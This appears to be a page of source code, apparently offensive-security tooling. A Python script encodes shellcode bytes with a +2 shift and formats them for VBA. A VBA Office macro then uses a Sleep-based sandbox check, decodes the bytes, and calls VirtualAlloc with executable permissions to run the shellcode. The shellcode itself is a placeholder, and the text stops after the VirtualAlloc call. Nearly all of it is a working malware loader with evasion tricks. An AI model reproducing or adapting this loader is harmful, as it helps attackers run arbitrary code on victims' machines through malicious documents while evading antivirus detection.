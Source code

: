 ```python
            hex_array = byte_values.split(',')

            # Create the byte array with the dynamic size based on the number of hex values
            buf = bytearray(int(val.strip(), 16) for val in hex_array)

            # Encode the byte values
            encoded = bytearray((b + 2) & 0xFF for b in buf)

            # Format the output
            hex_output = []
            for i, b in enumerate(encoded):
                hex_output.append(str(b))
                if (i + 1) % 50 == 0:
                    hex_output.append('_\n')
            output = "buf = Array(" + ", ".join(hex_output) + ")"
            print(output)
        else:
            print("The file does not contain a valid byte array declaration.")
    except Exception as ex:
        print(f"Error reading file: {ex}")

if __name__ == "__main__":
    main()
```

```VB
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Private Declare PtrSafe Function Sleep Lib "KERNEL32" (ByVal mili As Long) As Long

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    Dim t1 As Date
    Dim t2 As Date
    Dim time As Long

    t1 = Now()
    Sleep (2000)
    t2 = Now()
    time = DateDiff("s", t1, t2)

    If time < 2 Then
        Exit Function
    End If

    buf = Array(<encrypted shellcode>)

    For i = 0 To UBound(buf)
        buf(i) = buf(i) - 2
    Next i

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
```